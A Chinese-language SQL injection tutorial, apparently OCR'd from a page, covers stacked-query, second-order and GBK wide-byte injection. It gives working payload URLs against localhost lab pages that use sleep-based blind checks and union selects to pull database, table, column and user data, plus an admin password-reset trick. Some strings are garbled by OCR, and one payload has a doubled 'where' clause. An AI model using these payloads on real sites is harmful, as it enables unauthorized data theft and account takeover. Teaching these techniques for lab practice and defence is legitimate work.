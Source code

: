         

## 5、堆叠查询注入

Stacked injections:堆叠注入。从名词的含义就可以看到应该是一堆 sql 语句（多条） 一起执行。而在真实的运用中也是这样的，在 mysql 中，主要是命令行中，每一 条语句结尾加 ;表示语句结束。这样我们就想到了多条语句一起使用。-
**使用条件**-
堆叠注入的使用条件十分有限，其可能受到 API 或者数据库引擎，又或者权限的限制只有 当调用数据库函数支持执行多条 sql 语句时才能够使用，利用 mysqli\_multi\_query()函数就支持多条 sql 语句同时执行，但实际情况中，如 PHP 为了防止 sql 注入机制，往往使用调用数据库的函数是 mysqli\_ query()函数，其只能执行一条语句，分号后面的内容将不会被执行，所 以可以说堆叠注入的使用条件十分有限，一旦能够被使用，将可能对网站造成十分大的威胁。-
**攻击构造**-
正常 sql 语句：Select \* from users where id=’1’’;-
注入 sql 语 句 ： Select \* from users where id=’1’;select if(length(database())>5,sleep(5),1)%23; Payload= ‘;select if(length(database())>5,sleep(5),1)%23 Payload= ‘;select if(substr(user(),1,1)=‘r’,sleep(3),1)%23 如此句：从堆叠注 入语句中可以看出，第二条 SQL 语句(select if(substr(user(),1,1)=‘r’,sleep(3),1)%23 就是时间盲注的语句。-
堆叠注入和 union 的区别在于，union后只能跟 select，而堆叠后面可以使用 insert，update，-
create，delete 等常规数据库语句。-
**攻击实例**

      爆库名：test http://127.0.0.1/web/sql/duidie.php?id=1;select if(substr(database(),1,1)='a',sleep(5),1)
      爆表名 http://127.0.0.1/web/sql/duidie.php?id=1;select if(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1)='a',sleep(5),1) 
      爆字段名 http://127.0.0.1/web/sql/duidie.php?id=1;select if(substr((select column_name from information_schema.columns where table_schema='test' where table_name='user' limit 0,1),1,1)='a',sleep(5),1) 
      爆值 http://127.0.0.1/web/sql/duidie.php?id=1;select if(substr((select username from test.users limit 0,1),1,1)='a',sleep(5),1) 
    
        

## 6、二次注入

二次注入可以理解为，攻击者构造的恶意数据存储在数据库后，恶意数据被读取并进入到 SQL 查询语句所导致的注入。防御者可能在用户输入恶意数据时对其中的特殊字符进行了转义 处理，但在恶意数据插入到数据库时被处理的数据又被还原并存储在数据库中，当 Web 程序调 用存储在数据库中的恶意数据并执行 SQL 查询时，就发生了 SQL 二次注入。-
**两个条件**-
a:进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原 来的数据。-
b:开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没 有进行进一步的检验的处理。-
**攻击实例**

练习地址：http://sqli/Less-24 知道用户 Admin 但是不知道密码

1.  注册一个 admin’#用户
2.  修改 admin’#的密码
3.  Update users set password=’new\_pass’where username=’admin’#’and password=’123456’
4.  实际上 Update users set password=’new\_pass’where username=’admin’

## 7、宽字节注入

宽字节注入主要是源于程序员设置数据库编码与 php 编码设置为不同的两个编码，这样就可能会产 生宽字节注入。GBK 占用两字节，ASCII 占用一字节。PHP 中编码为 GBK，函数执行添加的是 ASCII 编码（添加的符号为‚\\‛），MYSQL 默认字符集是 GBK 等宽字节字符集。 输入%df%27,本来\\ 会转义%27（’），但\\（其中\\的十六进制是 %5C）的编码位数为 92，%df 的 编码位数为 223，%df%5c 符合 gbk 取值范围（第一个字节 129-254，第二个字节 64-254），会解析 为一个汉字‚運‛，这样\\就会是去应有的作用。 id=1’ id=1%df%5c’-
**攻击实例**

    127.0.0.1/web/sql/kuanzifu.php?id=1 
    127.0.0.1/web/sql/kuanzifu.php?id=1’ 
    127.0.0.1/web/sql/kuanzifu.php?id=1%df’
     从返回的结果可以看出，参数 id=1 在数据库查询是被单引号包围的。当传入参数 id=1’时， 传入的单引号又被转义符（反斜线）转义，导致参数 ID 无法逃逸单引号的包围，所以在一般情况下， 此处是不存在 SQL 注入漏洞的。不过有一个特例，就是当数据库的编码为 GBK 时，可以使用宽字节 注入，宽字节的格式是在地址后先加一个%df,再加单引号，因为反斜杠的编码为%5c,而在 GBK 编码 中，%df%5c 是繁体字連，所以这时，单引号成功逃逸，爆出 Mysql 数据库错误。
      %df%27====>(check_addslashes)====>%df%5c%27====>(GBK)====>運'
       $sql="SELECT * FROM users WHERE id='1 運'' LIMIT 0,1"; #成功将单引号闭合，可以进行 SQL 注入。
        判断数据库表有 6 个字段数 http://127.0.0.1/web/sql/kuanzifu.php?id=1%df%27%20order%20by%207--+
         http://127.0.0.1/web/sql/kuanzifu.php?id=-1%df%27%20union%20select%201,2,3,4,5,6--+ 
        爆库名 http://127.0.0.1/web/sql/kuanzifu.php?id=-1%df%27%20union%20select%201,2,3,(databas e()),5,6--+
        爆表名 http://127.0.0.1/web/sql/kuanzifu.php?id=-1%df' union select 1,2,3,(select group_concat(table_name) from information_schema.tables where table_schema=(select database())),5,6%23
